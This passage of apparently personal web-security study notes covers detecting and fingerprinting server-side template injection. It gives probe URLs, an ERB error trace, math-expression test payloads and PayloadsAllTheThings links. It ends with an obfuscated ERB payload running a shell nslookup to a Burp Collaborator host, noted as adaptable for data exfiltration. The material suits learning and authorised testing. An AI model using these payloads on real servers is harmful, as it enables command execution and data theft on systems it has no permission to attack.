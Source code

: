 It may result in:

```bash
http://vulnerable-website.com/?greeting=data.username
```

A  method for testing SSTI here is establishing the parameter does not contain a direct XSS vulnerability via:

```bash
http://vulnerable-website.com/?greeting=data.username<tag>
```

If no XSS, try breaking out of the statement using templating syntax:

```bash
http://vulnerable-website.com/?greeting=data.username}}<tag>
```

If still no results, it may be the wrong syntax or SSTI is not possible. If rendered properly, it indicates SSTI such as `Hello Carlos<tag>`.

To identify the templating engine, try submitting invalid syntax first to result in an error. For example, `<%=foobar%>` may trigger an error in Ruby ERB:

```ruby
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'
```

If not, test language-specific payloads by injecting mathematical operations using different syntax such as:

- `${7*7}`
- `{{7*7}}`
- `A{*comment*}b`
- `${"z".join("ab")}`
- `{{7*'7'}}`

![[SSTI Path.png]]
# Cheat Sheet

Some useful cheat sheets include:

- [PayloadsAllTheThings - Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)
- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

An obfuscation example that can help to bypass filtering is the following:

```bash
<%system("nslookup $(e`echo ch`o hello).yvxfjnpedf14.oastify.com")%>
```

This will append the string "hello" to Burp Collaborator. This can be changed to exfiltrate data.
# Basic Template Injection
